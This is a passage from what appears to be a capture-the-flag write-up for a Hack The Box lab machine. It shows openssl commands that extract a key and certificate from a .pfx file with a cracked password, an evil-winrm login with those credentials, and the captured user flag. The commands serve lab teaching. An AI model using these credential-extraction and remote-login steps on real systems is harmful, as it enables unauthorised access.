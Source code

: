 ```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes -password pass:thuglegacy
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.pem -password pass:thuglegacy
```

## Logging in as legacy with key and certificate

Great! we can now login using the key and the cert via winrm

```bash
evil-winrm -i timelapse.htb -S -k key.pem -c cert.pem
```

login was successful! grabbed user flag `8a46deaf35c3bcc3d2cd281014ace2c2`

proof

![timelapse_image.png](MediaFiles/timelapse_image1.png)

---

# Privesc

Now that we are in, lets enumerate the users

## Domain Users enumeration
